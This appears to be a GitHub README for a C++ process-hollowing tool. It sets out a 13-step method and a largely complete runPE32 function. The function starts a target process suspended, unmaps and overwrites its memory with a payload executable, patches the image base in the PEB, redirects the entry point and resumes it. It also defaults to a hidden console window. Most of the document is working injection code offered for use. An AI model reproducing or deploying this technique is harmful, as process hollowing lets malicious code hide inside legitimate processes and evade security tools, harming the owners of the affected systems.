 # Process Hollowing
[![](https://img.shields.io/badge/Category-Binary%20Exploitation-E5A505?style=flat-square)]() [![](https://img.shields.io/badge/Language-C++-E5A505?style=flat-square)]() [![](https://img.shields.io/badge/Version-1.0-E5A505?style=flat-square&color=green)]()

## Building

```
> cmake .
```

To show(1)/hide(2) console window when running executable:

```
- Properties
  - Linker
    - System
      - SubSystem: 
	1. Console (/SUBSYSTEM:CONSOLE)
	2. Windows (/SUBSYSTEM:WINDOWS)
    - Advanced
      - Entry Point
	1. (BLANK)
	2. mainCRTStartup
```

Default: hidden

## Methodology

1. Create and suspend target process
2. Get thread context of target process
3. Get image base of target process
4. Unmap target process memory space (Optional)
5. Allocate temporary memory space for custom payload
6. Change image base for symbolic imports
7. Store payload in allocated temporary memory space
8. Ensure image base of process is the same
9. Overwrite target process memory space with payload
10. Free allocated temporary memory space
11. Overwrite image base in headers
12. Set new Entrypoint
13. Resume target process

```Cpp
/*
runPE32:
    targetPath - application where we want to inject
    payload - buffer with raw image of PE that we want to inject
    payload_size - size of the above

    desiredBase - address where we want to map the payload in the target memory; NULL if we don't care. 
        This address will be ignored if the payload has no relocations table, because then it must be mapped to it's original ImageBase.
    unmap_target - do we want to unmap the target? (we are not forced to do it if it doesn't disturb our chosen base)
*/
bool runPE32(LPWSTR targetPath, BYTE* payload, SIZE_T payload_size, ULONGLONG desiredBase = NULL, bool unmap_target = false)
{
    load_ntdll_functions();

    //Load payload:
    IMAGE_NT_HEADERS32* payload_nt_hdr32 = get_nt_hrds32(payload);
    const ULONGLONG oldImageBase = payload_nt_hdr32->OptionalHeader.ImageBase;
    SIZE_T payloadImageSize = payload_nt_hdr32->OptionalHeader.SizeOfImage;

    //create target process:
    create_new_process1(targetPath, pi);

    //get initial context of the target:
    memset(&context, 0, sizeof(WOW64_CONTEXT));
    context.ContextFlags = CONTEXT_INTEGER;
    Wow64GetThreadContext(pi.hThread, &context);

    //get image base of the target:
    DWORD PEB_addr = context.Ebx;
    ReadProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &targetImageBase, sizeof(DWORD), NULL);

    //try to allocate space that will be the most suitable for the payload:
    LPVOID remoteAddress = VirtualAllocEx(pi.hProcess, (LPVOID)desiredBase, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //change the image base saved in headers - this is very important for loading imports:
    payload_nt_hdr32->OptionalHeader.ImageBase = static_cast<DWORD>((ULONGLONG)remoteAddress);

    //Prepare the payload image in the local memory, then copy it into the space reserved in the target process
    LPVOID localCopyAddress = VirtualAlloc(NULL, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    copy_pe_to_virtual_l(payload, payload_size, localCopyAddress);

    //if the base address of the payload changed, we need to apply relocations:
    if ((ULONGLONG)remoteAddress != oldImageBase) {
        apply_relocations((ULONGLONG)remoteAddress, oldImageBase, localCopyAddress);
    }

    SIZE_T written = 0;
    // paste the local copy of the prepared image into the reserved space inside the remote process:
    WriteProcessMemory(pi.hProcess, remoteAddress, localCopyAddress, payloadImageSize, &written);

    //free the localy allocated copy
    VirtualFree(localCopyAddress, payloadImageSize, MEM_FREE);

    //overwrite ImageBase stored in PEB
    DWORD remoteAddr32b = static_cast<DWORD>((ULONGLONG)remoteAddress);
    WriteProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &remoteAddr32b, sizeof(DWORD), &written);

    //overwrite context: set new Entry Point
    DWORD newEP = static_cast<DWORD>((ULONGLONG)remoteAddress + payload_nt_hdr32->OptionalHeader.AddressOfEntryPoint);
    context.Eax = newEP;
    Wow64SetThreadContext(pi.hThread, &context);

    //start the injected:
    printf("--\n");
    ResumeThread(pi.hThread);
    return true;
}
```

## Reference

- https://github.com/hasherezade/demos/tree/master/run_pe
